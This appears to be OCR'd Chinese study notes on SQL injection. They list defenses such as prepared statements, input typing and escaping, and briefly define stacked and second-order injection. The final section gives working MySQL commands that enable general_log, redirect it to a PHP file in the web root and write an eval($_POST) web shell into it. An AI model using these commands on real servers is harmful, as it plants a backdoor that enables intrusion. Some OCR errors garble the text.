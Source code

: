 1. 正确地采用安全的数据库连接方式，如php中的PDO或MySQLi并使用预编译等技术

2. 采用成熟的防注入的框架(参考thinkphp、OWASP网站、或者Discuzz及WordPress等的防注入手段)

3. 细节上:

   1. 对于提交的数字型参数，需严格限定数据类型；
   2. 特殊的字符转义
   3. 避免存储过程出现注入

   扩展:

   堆叠注入: -次性执行多条sq|注入查询，多条语句用;分隔。前提条件:后端支持堆叠查询(多条语句查询)。

   二次注入:三阶段介绍(需要代码审计)

# sql写日志getshell

show variables like '%general%';查看日志配置（开关、位置）

set global general_log = on#开启日志

set global general_log_file='c:/phpstudy/www/methehack.php';设置日志位置为网站目录

select '<?php eval($_POST["a"]); ?>'#执行生成包含木马日志的查询

